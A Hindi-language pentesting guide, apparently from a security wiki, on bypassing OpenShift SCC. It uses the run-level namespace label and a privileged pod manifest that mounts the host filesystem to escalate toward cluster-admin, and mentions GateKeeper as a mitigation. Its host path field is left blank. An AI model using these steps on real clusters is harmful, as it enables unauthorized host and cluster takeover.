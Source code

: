 # Openshift - SCC bypass

**इस पृष्ठ के मूल लेखक हैं** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## विशेषाधिकार प्राप्त नामस्थान

डिफ़ॉल्ट रूप से, SCC निम्नलिखित परियोजनाओं पर लागू नहीं होता है:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

यदि आप इन नामस्थानों में से किसी एक में पॉड्स तैनात करते हैं, तो कोई SCC लागू नहीं होगा, जिससे विशेषाधिकार प्राप्त पॉड्स की तैनाती या होस्ट फ़ाइल प्रणाली को माउंट करने की अनुमति मिलती है।

## नामस्थान लेबल

RedHat दस्तावेज़ के अनुसार, आपके पॉड पर SCC आवेदन को अक्षम करने का एक तरीका है। आपको निम्नलिखित में से कम से कम एक अनुमति होनी चाहिए:

- एक नामस्थान बनाना और इस नामस्थान पर एक पॉड बनाना
- एक नामस्थान संपादित करना और इस नामस्थान पर एक पॉड बनाना
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
विशिष्ट लेबल `openshift.io/run-level` उपयोगकर्ताओं को अनुप्रयोगों के लिए SCCs को दरकिनार करने की अनुमति देता है। RedHat दस्तावेज़ के अनुसार, जब इस लेबल का उपयोग किया जाता है, तो उस नामस्थान के भीतर सभी पॉड्स पर कोई SCCs लागू नहीं होते, प्रभावी रूप से किसी भी प्रतिबंध को हटा दिया जाता है।

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## लेबल जोड़ें

अपने नामस्थान में लेबल जोड़ने के लिए:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
एक YAML फ़ाइल के माध्यम से लेबल के साथ एक नामस्थान बनाने के लिए:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
अब, नामस्थान पर बनाए गए सभी नए पॉड्स में कोई SCC नहीं होनी चाहिए

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC की अनुपस्थिति में, आपके पॉड परिभाषा पर कोई प्रतिबंध नहीं हैं। इसका मतलब है कि एक दुर्भावनापूर्ण पॉड को आसानी से बनाया जा सकता है ताकि वह होस्ट सिस्टम पर भाग सके।
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
अब, होस्ट सिस्टम तक पहुँचने के लिए विशेषाधिकारों को बढ़ाना और इसके बाद पूरे क्लस्टर पर नियंत्रण प्राप्त करना, 'cluster-admin' विशेषाधिकार प्राप्त करना आसान हो गया है। निम्नलिखित पृष्ठ में **Node-Post Exploitation** भाग देखें:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### कस्टम लेबल

इसके अलावा, लक्षित सेटअप के आधार पर, कुछ कस्टम लेबल / एनोटेशन का उपयोग पिछले हमले के परिदृश्य के समान किया जा सकता है। भले ही इसे इसके लिए नहीं बनाया गया हो, लेबल का उपयोग अनुमतियाँ देने, किसी विशेष संसाधन को प्रतिबंधित करने या न करने के लिए किया जा सकता है।

यदि आप कुछ संसाधनों को पढ़ सकते हैं तो कस्टम लेबल की तलाश करें। यहाँ कुछ दिलचस्प संसाधनों की सूची है:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## सभी विशेषाधिकार प्राप्त नामस्थान सूचीबद्ध करें
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

OpenShift में, जैसा कि पहले दिखाया गया, `openshift.io/run-level` लेबल के साथ एक नामस्थान में एक पॉड को तैनात करने की अनुमति होने से क्लस्टर का सीधा अधिग्रहण हो सकता है। क्लस्टर सेटिंग्स के दृष्टिकोण से, यह कार्यक्षमता **निष्क्रिय नहीं की जा सकती**, क्योंकि यह OpenShift के डिज़ाइन में अंतर्निहित है।

हालांकि, **Open Policy Agent GateKeeper** जैसी शमन उपाय उपयोगकर्ताओं को इस लेबल को सेट करने से रोक सकते हैं।

GateKeeper के नियमों को बायपास करने और क्लस्टर अधिग्रहण को निष्पादित करने के लिए इस लेबल को सेट करने के लिए, **हमलावरों को वैकल्पिक तरीकों की पहचान करने की आवश्यकता होगी।**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
